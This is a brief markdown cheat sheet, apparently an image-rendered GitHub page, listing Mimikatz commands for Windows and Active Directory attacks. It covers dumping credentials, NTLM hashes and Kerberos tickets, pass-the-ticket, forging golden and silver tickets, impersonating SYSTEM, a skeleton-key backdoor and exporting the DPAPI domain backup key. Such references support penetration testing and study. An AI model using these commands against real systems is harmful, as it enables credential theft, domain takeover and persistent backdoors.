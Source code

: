# MIMIKATZ

## Author: https://github.com/gentilkiwi/mimikatz

### privilege::debug = Shows privileges on machine ( Ensure output is "20 OK")

### sekurlsa::tickets /export = Exports all .kirbi tickets to current directory

### kerberos::ptt TICKET = It will cache and impersonate the given ticket we harvested earlier (Pass-the-Ticket)

### klist = List our cached tickets

### token::elevate/revert = Impersonate SYSTEM

### lsadump::lsa /inject /name:krbtgt = Dumps the hash as well as the security identifier needed to create a golden ticket

### lsadump::lsa /inject /name:DOMAIN_ADMIN/SERVICE_ACCOUNT = Silver Ticket

### kerberos::golden /user:Administrator /domain:CONTROLLER.LOCAL /sid:SID /krbtgt:KRBTGT_NTLM_HASH /id:ID

### misc::cmd = Elevates command prompt with the given ticket

### misc::skeleton = Skeleton key (Kerberos Backdoor) (Default credentials: mimikatz)

### lsadump::lsa /patch = NTLM hashes dump

### lsadump::backupkeys /system:localhost /export (Exports DPAPI Domain Backup Key from Domain Controller. VERY IMPORTANT!!!!)
